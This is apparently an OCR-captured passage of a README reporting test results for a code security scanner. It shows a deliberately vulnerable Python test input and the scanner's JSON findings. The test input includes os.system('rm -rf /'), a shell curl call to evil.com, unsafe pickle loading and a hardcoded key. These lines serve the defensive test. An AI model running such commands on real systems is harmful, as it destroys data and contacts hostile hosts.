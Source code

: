 ```json
  }
}
```

**✅ PROOF:** 
- Detected 2 security vulnerabilities with correct severity levels
- Provided specific line numbers and code snippets
- Generated actionable suggestions for fixes
- Calculated complexity metrics (nesting depth: 4, conditionals: 3)
- Analysis completed in 0.16ms (ultra-fast)

---

### **Test 3: Advanced Security Scanning**
**Test Code:** Multiple severe security vulnerabilities
```python
import subprocess
import pickle
os.system("rm -rf /")
subprocess.call(["curl", "evil.com"], shell=True)
with open("data.pkl", "rb") as f:
    data = pickle.load(f)
api_key = "sk-abc123def456"
exec(malicious_code)
```

**✅ RESULT: COMPREHENSIVE VULNERABILITY DETECTION**
```json
{
  "filename": "vulnerable_code.py",
  "security_issues": [
    {
      "severity": "medium",
      "title": "Unsafe system command",
      "description": "os.system() can be vulnerable to command injection",
      "line_number": 3,
      "code_snippet": "os.system(\"rm -rf /\")",
      "suggestion": "Use subprocess.run() with proper argument handling"
    },
    {
      "severity": "high",
      "title": "Shell injection risk",
      "description": "Using shell=True can lead to shell injection vulnerabilities",
      "line_number": 4,
      "code_snippet": "subprocess.call([\"curl\", \"evil.com\"], shell=True)",
      "suggestion": "Use shell=False and pass arguments as a list"
    },
    {
      "severity": "medium",
      "title": "Unsafe deserialization",
      "description": "Pickle deserialization can execute arbitrary code",
      "line_number": 6,
      "code_snippet": "data = pickle.load(f)",
      "suggestion": "Use JSON or other safe serialization formats"
    },
    {
      "severity": "high",
      "title": "Hardcoded API key",
      "description": "API key is hardcoded in source code",
      "line_number": 7,
      "code_snippet": "api_key = \"sk-abc123def456\"",
      "suggestion": "Use environment variables or secure configuration management"
    },
    {
```